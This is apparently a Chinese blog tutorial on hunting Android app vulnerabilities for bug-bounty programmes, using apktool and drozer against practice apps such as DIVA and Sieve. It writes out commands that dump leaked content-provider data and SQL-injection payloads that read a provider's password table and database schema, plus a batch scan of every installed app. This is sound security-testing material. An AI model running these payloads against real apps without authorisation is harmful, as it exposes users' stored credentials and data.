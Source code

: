 # SRC之APP挖掘方向第一部分

------

本章简介：这一部分讲解了对于app漏洞挖掘的工具篇

> * 第一部分针对app漏洞挖掘工具篇！
> * 第二部分为组件代码层，如何找到客户端程序安全、敏感信息安全、密码安全、密码策略设置、进程保护、通信安全等等的安全漏洞问题！
> * 第三部分为应用层，如何知道app的传输流量是什么加密并如何解密，得到服务接口如何利用，除了http协议之外的协议如何拦截并重放等！


![cmd-markdown-logo](http://thyrsi.com/t6/378/1538285208x-1566661319.jpg)



**测试环境：安卓版本手机或者安卓模拟器、burp、drozer、apktool等等**


> 组件代码层：  对于这一块的测试方法可以使用apktool对APK进行反编译或者drozer进行自动化测试

------

## APKTOOL使用：

>对于其他的逆向挖漏洞本人菜鸡不会，只会拿源码找一下敏感地址或者账号信息在利用。

**使用命令apktool d 1.apk  即可对1.apk进行反编译，如果编译出错（app有保护机制）前提是没混淆过的加密算法encrypt、hash之内的单词**
![1][1]


 

> 编译完成后会在桌面出现一个以app命名的文件夹或者直接使用其他工具把app内的字符，url直接拽出来如（http，www，com，cn，.action等关键字）

**如图对京东某app进行测试**
![11][2]


![3][3]


**通过上述方法获取到url或者敏感信息后可以深入利用，具体怎么利用各位大佬应该都知道，如果在加入自动化神器的话对挖src的效率会更大的提升。**

> 
如某东app泄露的一个IP，打开之后是一个子系统管理，这个地址如果去通过子域名ip探测C段是获取不到的.


----------


##Drozer使用：
>这个工具就叼了，和walk黑客大佬说了一下，就直接扔了一个drozer文档过来

 - 写一下操作步骤吧：

**首先如果使用手机操作的话，电脑要有adb，用模拟器的话就不用去安装adb了因为大部分的模拟器都是自带adb的！（演示的是使用夜神模拟器操作）**

Drozer
------

 - 这个工具各位大佬可以自行去下载 打开模拟器后安装drozer的Agent代理

![4][4]

> A. 打开夜神自带的adb然后执行命令（adb devices）查看一下设备有没有列出来

![5][5]

![6][6]

    可以看到咱们的设备已经准备就绪了随时准备开干

 

> B. 不过咱们这次是讲的第一部分所以不讲如何在adb里面玩，第二步就是转发一下端口好让drozer连接上命令如下： 
> adb.exe forward tcp:31415 tcp:31415

![7][7]

执行后就可以了

补充：
---

 - 报10061报错    这个时候，看下手机是不是被其他管理软件连接了，把管理软件退出。   然后重新输入转发命令fcp。则可以解决
   
 - 报10054错误  这个错误很好解决，在手机端，把agent关闭，重新打开，则可以解决

> C.这是最后一步了，在drozer的目录直接输入命令drozer console connect进入它的控制台

![8][8]


 

    完美，这样就可以一顿操作猛如虎了

**上述已经说了如何进入drozer了，那面就看看如何扫描组件代码层的问题的
我们要对某个APP进行漏洞检测的话需要确定它是什么名字，那么就用到下面的命令了**

    run app.package.list（列出所有的app）ps：想不让它乱码就用linux系统操作

![9][9]

> **大家可以看到我上述标记的app名称，它就是要做测试的app，文件名:jakhar.aseem.diva，一定要用前面的当作命名，不要拿()内的Diva当作app的名字**

    一般要对某个app进行漏洞挖掘的话首先咱们要知道这个app的一些信息，那么就用下面的命令查看一下它的信息：
`run app.package.info -a jakhar.aseem.diva` 

    可以看到-a后面指定的这个就是咱们上一步要测试的app!

![10][10]


>  通过上述可以看到版本信息，数据存储的目录，用户ID,组ID,是否有共享库，还有权限信息等

 - 扫描可以访问content provider的URI（数据泄露）

> 命令：run scanner.provider.finduris -a APP

![11][11]
**通过上述图片可以看到app有泄露，但是是否存在敏感信息还需要进去看看** 

    run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys

![12][12]
**但当将路径变换为Keys/时,则不会检查路径，可顺利查询数据**
![13][13]

> PS: 在发现这种问题的时候首先要确定泄露的信息是否属于可公开的如安装插件信息等，不涉及到用户的敏感数据，如果是公开的就不要提交到src了。
> 由于drozer工具能做的事比较多，所以这一部分不能在drozer
> 上面浪费太多时间，在举例一个sql注入的例子，下次在讲drozer实战app漏洞挖掘

说到sql了还是安卓的那就先上一波理论：
--------------------

 - Android操作系统建议使用SQLite数据库存储用户数据。SQLite数据库使用SQL语句，所以可以进行SQL注入。
 - 使用projection参数和seleciton参数可以传递一些简单的SQL注入语句到Content provider。

**如：**
![14][14]


  **看完上述的理论之后那就知道安卓的sql和web没啥区别，那就直接上drozer工具扫描注入的命令：**

> run scanner.provider.injection  -a APP

![15][15]


  

> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"

  ![16][16]


  

> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"

  ![17][17]
  

> run app.provider.query
>content://com.mwr.example.sieve.DBContentProvider/Passwords/
> --projection "* FROM SQLITE_MASTER WHERE type='table'--"

  ![18][18]


  


----------


**这样就可以看到数据库之类的了，那么下面咱在看一下如何在web下进行sql注入**

 - 首先在drozer内开启一下web服务：

> run auxiliary.webcontentresolver

![19][19]


  

    可以看到端口是8080，如果出错的话就杀一下8080端口的进程

  ![20][20]


  

    找到目标app，然后访问，发现无法访问是因为做了模式匹配，所以Permission Denial

  ![21][21]


  

    http://127.0.0.1:8080/query?uri=content://com.mwr.example.sieve.DBContentProvider/Keys/&projection=* 

  ![22][22]


  **如果感觉手工比较繁琐的话那就直接上sqlmap**
  ![23][23]


  

> 到这里drozer本章就结束了，另外如果感觉使用检查sql注入的命令 
run scanner.provider.injection
> -a app 效率太慢，不想只检查一个app，那么你可以直接在窗口输入 
run scanner.provider.injection
这样他就会检查你手机内所有app是否存在sql漏洞，其他漏洞批量检查也是一样的方法

![24][24]


  [1]: http://thyrsi.com/t6/378/1538285347x-1404792622.png
  [2]: http://thyrsi.com/t6/378/1538285450x-1404729662.png
  [3]: http://thyrsi.com/t6/378/1538285486x-1404729662.png
  [4]: http://thyrsi.com/t6/378/1538285560x-1566661349.png
  [5]: http://thyrsi.com/t6/378/1538285596x-1404792622.png
  [6]: http://thyrsi.com/t6/378/1538285624x-1404792253.png
  [7]: http://thyrsi.com/t6/378/1538285661x-1566661193.png
  [8]: http://thyrsi.com/t6/378/1538285704x-1566661319.png
  [9]: http://thyrsi.com/t6/378/1538285747x-1404729656.png
  [10]: http://thyrsi.com/t6/378/1538285788x-1566661157.png
  [11]: http://thyrsi.com/t6/378/1538285829x-1566661349.png
  [12]: http://thyrsi.com/t6/378/1538285867x-1566661193.png
  [13]: http://thyrsi.com/t6/378/1538285904x-1566660906.png
  [14]: http://thyrsi.com/t6/378/1538285939x-1404792730.png
  [15]: http://thyrsi.com/t6/378/1538285976x-1404729710.png
  [16]: http://thyrsi.com/t6/378/1538286010x-1566660906.png
  [17]: http://thyrsi.com/t6/378/1538286043x-1404792730.png
  [18]: http://thyrsi.com/t6/378/1538286076x-1566661026.png
  [19]: http://thyrsi.com/t6/378/1538286111x-1404729656.png
  [20]: http://thyrsi.com/t6/378/1538286143x-1566661319.png
  [21]: http://thyrsi.com/t6/378/1538286185x-1566660906.png
  [22]: http://thyrsi.com/t6/378/1538286218x-1566661319.png
  [23]: http://thyrsi.com/t6/378/1538286249x-1404792622.png
  [24]: http://thyrsi.com/t6/378/1538286283x-1404792658.png
> 我在放一个drozer 的常用命令介绍地址，大家可以进去看一下drozer的其他命令`

    https://www.cnblogs.com/goodhacker/p/3906180.html

第一部分工具篇完毕； （敬请期待第二部分）
---------------------

第二部分为组件代码层，如何找到客户端程序安全、敏感信息安全、密码安全、密码策略设置、进程保护、通信安全等等的安全漏洞问题！！！
---------------------------------------------------------------

